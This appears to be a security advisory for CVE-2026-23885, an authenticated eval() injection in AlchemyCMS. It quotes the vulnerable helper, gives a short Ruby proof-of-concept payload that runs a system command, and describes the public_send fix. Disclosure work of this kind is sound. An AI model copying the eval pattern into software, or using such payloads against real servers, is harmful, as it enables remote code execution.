

<div align="center">
  <h1>Security Advisory: CVE-2026-23885</h1>
  <strong>Authenticated Remote Code Execution (RCE) in AlchemyCMS</strong>
</div>

---

## 1. Executive Summary
A critical security vulnerability involving **Improper Neutralization of Directives in Dynamically Evaluated Code (CWE-95)** was discovered in the AlchemyCMS framework. The vulnerability allows an authenticated user with administrative privileges to execute arbitrary Ruby code and system commands on the host server via an `eval()` injection sink.

---

## 2. Technical Vulnerability Analysis

### Vulnerable Component
- **File:** `app/helpers/alchemy/resources_helper.rb`
- **Method:** `Alchemy::ResourcesHelper#resource_url_proxy`
- **Risk Level:** Moderate/High (Authenticated RCE)

### Root Cause
The helper method insecurely processes the `engine_name` attribute from the `resource_handler` object. This attribute is passed directly into the Ruby `eval()` function without prior sanitization or validation.


```ruby
def resource_url_proxy(resource_handler)
  if resource_handler.in_engine?
    eval(resource_handler.engine_name) # rubocop:disable Security/Eval
  else
    main_app
  end
end
The presence of the # rubocop:disable Security/Eval directive confirms that the security implications of using eval() were recognized but bypassed during implementation.

3. Proof of Concept (PoC)
Attack Vector
The vulnerability is triggered within the AlchemyCMS administrative interface when rendering resource-based views (e.g., Sites or Languages). If an attacker can manipulate the module configuration or the underlying resource data, they can achieve execution.

Standalone Exploitation Script
The following script demonstrates the arbitrary code execution by simulating the vulnerable helper environment:

Ruby

require 'ostruct'

def resource_url_proxy(resource_handler)
  if resource_handler.engine_name && !resource_handler.engine_name.empty?
    eval(resource_handler.engine_name)
  end
end

# Payload: Executes system 'id' command and creates evidence file
payload = "system('id > /tmp/rce_verified'); 'main_app'"
handler = OpenStruct.new(engine_name: payload)

resource_url_proxy(handler)
Evidence of Execution
Upon execution, the system command is processed, granting the attacker access to the server's environment.
```
 

4. Impact and Severity
Confidentiality: High. Complete access to application data and environment secrets.

Integrity: High. Ability to modify files and database records.

Availability: High. Potential for complete system disruption.

CVE ID: CVE-2026-23885

5. Remediation
The vulnerability has been addressed in the following patched versions:

7.4.12

8.0.3

The fix involves replacing the eval() call with public_send() to securely route requests to the intended engine proxy:

Ruby

main_app.public_send(resource_handler.engine_name) if resource_handler.engine_name.present?
<div align="right"> <sub><b>Vulnerability Discovery:</b> Independent Security Audit</sub>


<sub><b>CVE Reference:</b> CVE-2026-23885</sub> </div>
- **CVE Listing:** [CVE-2026-23885 at CVE.org](https://www.cve.org/CVERecord?id=CVE-2026-23885)
* **Vulnerability Analysis:** [Tenable CVE-2026-23885 Database](https://www.tenable.com/cve/CVE-2026-23885)
*  **AlchemyCMS Security Policy:** [Security Guidelines](https://github.com/AlchemyCMS/alchemy_cms/security/advisories)
